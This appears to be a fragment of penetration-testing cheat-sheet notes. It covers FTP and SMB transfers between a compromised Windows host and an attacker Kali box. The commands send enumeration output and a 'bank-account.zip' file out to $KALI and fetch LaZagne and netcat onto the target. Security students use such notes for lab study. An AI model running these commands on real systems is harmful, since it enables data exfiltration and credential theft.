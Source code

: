 ```command prompt - target
ftp $KALI
```

```command prompt - target
anonymous
```

```command prompt - target
anonymous
```

```command prompt - target
binary
```

```command prompt - target
put FILE.7z
```

```command prompt - target
mput jaws-results.txt PowerUp.txt Seatbelt.txt Sherlock.txt winpeas.txt 
```


#### SMB File Transfer

No Auth:
```bash - kali
smbserver.py share . -smb2support
```

Auth'd:
```bash - kali
smbserver.py share . -smb2support -username df -password df
```

WINDOWS:

USE RCP TO COPY **TO** SMBSERVER:
```command prompt - target
rcp -b bank-account.zip \\$KALI\share
```

USE RCP TO COPY **FROM** SMBSERVER:
```command prompt - target
rcp \\$KALI\share\lazagne.exe .
```

OR

CONNECT TO SHARE WITH NO AUTH:
```command prompt - target
net use \\$KALI\share
```

COPY FROM WINDOWS TO KALI:
```command prompt - target
copy winpeas.txt \\$KALI\share\
```

COPY FROM KALI TO WINDOWS:
```command prompt - target
copy \\$KALI\share\nc.exe %TEMP%\nc.exe
```
